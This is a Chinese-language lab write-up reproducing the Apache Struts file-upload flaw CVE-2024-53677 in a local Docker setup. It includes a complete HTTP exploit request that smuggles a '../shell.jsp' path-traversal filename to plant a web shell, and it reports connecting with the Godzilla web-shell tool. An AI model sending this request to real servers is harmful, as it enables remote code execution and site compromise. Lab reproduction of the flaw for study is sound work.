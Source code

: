 # Apache Struts FileUploadInterceptor 文件上传漏洞（CVE-2024-53677）复现及漏洞环境

Apache Struts 的文件上传逻辑中存在漏洞，若代码中使用了FileUploadInterceptor，当进行文件上传时，攻击者可能构造恶意请求利用目录遍历等上传文件至其他目录。如果成功利用，攻击者可能能够执行远程代码、获取敏感数据、破坏网站内容或进行其他恶意活动。

## 测试环境

执行如下命令启动一个WordPress漏洞环境：

```
docker compose up -d
```

访问 http://127.0.0.1:8080/upload.action 发现文件上传接口

![1](1.png)

环境搭建好后首先随意上传一张图片，这一步的步骤是创建一个uploads文件夹，方便后续漏洞利用。

![2](2.png)

## 影响版本

- Struts 2.0.0 - Struts 2.3.37
- Struts 2.5.0- Struts 2.5.33
- Struts 6.0.0- Struts 6.3.0.2

## 漏洞复现

> [!NOTE]
>
> 首先需要明确一点，为了简化本次漏洞复现的复杂度，本次没有对文件上传的后缀进行校验。这就意味着如果你直接上传恶意代码到uploads文件夹也是可以成功的。但为了学习了解这个漏洞，你需要做的是把恶意文件上传到uploads的上一级目录即ROOT目录下。

```http
POST /upload.action HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data; boundary=---------------------------10646135771952845599584984154
Content-Length: 363

-----------------------------10646135771952845599584984154
Content-Disposition: form-data; name="Upload"; filename="test.txt"
Content-Type: text/plain

PAYLOAD
-----------------------------10646135771952845599584984154
Content-Disposition: form-data; name="top.UploadFileName";

../shell.jsp
-----------------------------10646135771952845599584984154--
```

![3](3.png)

成功连上哥斯拉

![4](4.png)

